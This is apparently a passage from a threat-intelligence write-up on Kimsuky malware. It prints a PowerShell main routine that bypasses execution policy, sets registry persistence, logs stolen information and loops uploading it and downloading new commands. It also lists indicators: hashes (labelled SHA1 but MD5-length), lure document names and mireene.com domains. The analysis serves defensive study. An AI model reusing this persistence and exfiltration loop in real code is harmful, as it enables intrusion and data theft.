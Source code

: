 <h6>The main function pushes the persistence, send the data stolen and wait for the new order.</h6>

```csharp
function main
{
 Set-ExecutionPolicy -Scope CurrentUser -ExecutionPolicy Bypass -Force
 $FilePath = $env:APPDATA + $LOG_FILEPATH
 New-Item -Path $FilePath -Type directory -Force
 $szLogPath = $FilePath + $LOG_FILENAME
 $key = Get-Item -Path $RegKey
 $exists = $key.GetValueNames() -contains $RegValueName
 if($exists -eq $False)
 {
  $value1 = New-ItemProperty -Path $RegKey -Name $RegValueName -Value $regValue
  Get_info $szLogPath
 }
 
 while ($true)
 {
  FileUploading $szLogPath
  Start-Sleep -Milliseconds 10000
  Download
  Start-Sleep -Milliseconds 10000
  Start-Sleep -Milliseconds $TIME_VALUE
 }
}
main
```
   
<h2>Threat Intelligence</h2><a name="Intel"></a></h2>

### Similarities between the different versions of kimsuky

<h6>Some similarities can be observed :</h6>
<ul>
<li><h6>On the URL path used for download script path like {?filename}=FilenameRquested".</h6></li>
<li><h6>The structure used for upload the data are edited and pushed in the header.</h6></li>
<li><h6>Multiples domains using the same base of the domain mireene.com with recent samples of Kimsuky spotted :</h6></li>

<table>
<tr>
<td>Hash (SHA1)</td>
<td>Filename</td>
<td>Domain</td>
</tr>
<tr>
<td>757a71f0fbd6b3d993be2a213338d1f2</td>
<td>코로나바이러스 대응.doc</td>
<td>vnext.mireene.com</td>
</tr>
<tr>
<td>5f2d3ed67a577526fcbd9a154f522cce</td>
<td>비건 미국무부 부장관 서신 20200302.doc</td>
<td>nhpurumy.mireene.com</td>
</tr>
<tr>
<td>a4388c4d0588cd3d8a607594347663e0</td>
<td>COVID-19 and North Korea.docx</td>
<td>crphone.mireene.com</td>
</tr>
</table>
</ul>
